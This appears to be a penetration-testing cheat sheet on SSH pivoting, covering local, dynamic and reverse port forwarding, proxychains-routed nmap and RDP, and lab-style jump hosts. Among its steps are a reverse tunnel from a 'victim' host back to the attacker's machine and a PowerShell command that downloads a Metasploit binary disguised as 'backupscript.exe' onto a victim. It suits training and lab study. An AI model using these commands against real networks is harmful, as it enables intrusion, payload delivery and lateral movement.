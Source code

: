 ```yaml
---
description: This is more of a cheat sheet for commands.
---
```


# SSH

## Local Port Forwarding

### Local Port Forwarding

```bash
 ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```

Opens a listener on local port 1234 (our machine) and sends all traffic to remote port 3306 (10.129.202.64).

### Forwarding multiple ports

```bash
 ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```

This SSH command connects to a remote machine and sets up two local port forwards:

1. Local port 1234 forwards to port 3306 on the remote machine (typically MySQL).
2. Local port 8080 forwards to port 80 on the remote machine (typically HTTP).

### Local Port Forwarding Example

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-03 194415.png" alt=""><figcaption></figcaption></figure>

```bash
jumphost@ubuntu ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```

Opens a listener on port 4455 (CONFULENCE01 Jump Host) and forwards all traffic through 10.4.50.215 to 172.16.50.217:445. (PGDATABASE01).

_<mark style="color:red;">**NOTE**</mark>_: **-N** flag is means execute no remote commands. When we use this, we will not get any response back.

## Dynamic Port Forwarding - Tunneling over SOCKS proxy

Local port forwarding is limited to one socket per SSH connection. OpenSSH allows for dynamic port forwarding. From a single listening port, packets can be forwarded to any socket that the server can route to. **This works because the listening port creates a SOCKS proxy.**

### D_**ynamic Port Forwarding from Attack Host:**_

```shell-session
attacker@kali$ ssh -D 9050 ubuntu@10.129.202.64
```

_<mark style="color:red;">**NOTE:**</mark>_ The **-D** flag enables dynamic port forwarding & ssh acts as a SOCKS server.

```bash
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

### D_**ynamic Port Forwarding From Jump Host:**_

```shell-session
jump-host@ubuntu$ ssh -D 9050 ubuntu@172.167.32.11
```

```bash
┌──(kali㉿kali)-[~]
└─$ tail -f /etc/proxychains4.conf
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5  192.168.198.63  9050 # Ip address of jump host

```

### Using tools with Proxychains:

_**Nmap:**_&#x20;

This is my preferred nmap command to run. (172.16.50.217 is in internal network)

```
kali@kali:~$ proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```

_**xfreerdp:**_

```bash
kali@kali proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Remote Port Forwarding

Also known as **Reverse Port Forwarding**. In real world scenarios it is likely we'll encounter a firewall that heavily restricts inbound connections. Outbound connections however, are less likely to be blocked.&#x20;

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-04 153523.png" alt=""><figcaption></figcaption></figure>

### Start SSH Service

```shell-session
kali:~$ sudo systemctl start ssh
```

### Connect back to Kali Host

The below command opens a port on localhost 2345 on our kali machine. All traffic is forwarded through the jump host to 10.4.50.215:5432.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>victim@jump-host$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
</strong></code></pre>

### Verifying Port Forward

As we can see, our kali box is listening on 127.0.0.1 2345

```
kali@kali$ ss -ntlpu                     
Netid            State             Recv-Q            Send-Q                       Local Address:Port                          Peer Address:Port            Process            
udp              UNCONN            0                 0                                  0.0.0.0:52704                              0.0.0.0:*                                  
tcp              LISTEN            0                 128                              127.0.0.1:2345                               0.0.0.0:*                                  
tcp              LISTEN            0                 128                                0.0.0.0:22                                 0.0.0.0:*                                  
tcp              LISTEN            0                 128                                   [::]:22                                    [::]:*      
```

### Transferring Metasploit Binary to Victim (on internal network).

We may need to transfer a binary to a machine we have access to.

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

## Remote Dynamic Port Forwarding

Dynamic Remote Port Forwarding
